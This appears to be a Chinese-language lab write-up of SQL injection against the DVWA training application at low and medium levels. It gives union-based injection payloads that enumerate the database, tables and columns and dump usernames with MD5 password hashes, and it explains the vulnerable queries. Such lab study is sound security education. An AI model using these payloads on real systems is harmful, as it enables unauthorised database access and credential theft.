# SQL注入-DVWA

## low

### 复现

当我们输入单引号时,发现页面出现sql语法报错,输入双引号时不报错,得到原始sql语句的闭合方式为单引号



将payload修改为
```
1'+--+
```
页面回显正常,说明存在字符型sql注入



使用group by判断字段数,但字段为3时出现报错,说明字段数为2



使用联合注入,获取数据库内容

```
-1'+union+select+1,database()--+
```



页面回显当前数据库为dvwa

使用联合注入,获取表名 

```
-1'+union+select+1,table_name+from+information_schema.tables+where+table_schema='dvwa'--+
```



报出两个表
users
guessbook

显然,users表为用户表,一般存放用户信息
进一步,获取users表的字段名

```
-1'+union+select+1,column_name+from+information_schema.columns+where+table_name='users'--+
```



报出users表的字段名
user
password

最后,获取users表的内容

```
-1'+union+select+1,concat(user,':',password)+from+users--+
```



显然密码为md5加密,可以使用(在线md5解密网站,爆破碰撞等方法)解密

### 源代码分析



可以发现low等级下,sql语句为

```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

可以发现,sql语句未对用户输入进行过滤,单纯使用单引号将输入包裹起来,未对输出结果限制为单行输出,并且将报错信息显示在页面上,导致sql注入漏洞

## medium

### 复现

可以发现medium下为POST型的SQL注入,使用单引号出现报错



可以发现medium下未使用引号包含为数字型SQL注入
使用group by判断字段数



可以发现medium下字段为3时报错,因此字段数为2,使用联合注入,获取数据库内容

```
-1 union select 1,database()#
```



可以发现medium下数据库为dvwa,接下来步骤于low等级相同,获取表名,字段名,内容等

### 源代码分析



可以发现medium等级下,sql语句为

```sql
SELECT first_name, last_name FROM users WHERE user_id = $id;
```

问题与low等级基本一致,未对用户输入进行过滤,未使用引号将输入包裹起来,未对输出结果限制为单行输出,并且将报错信息显示在页面上,导致sql注入漏洞


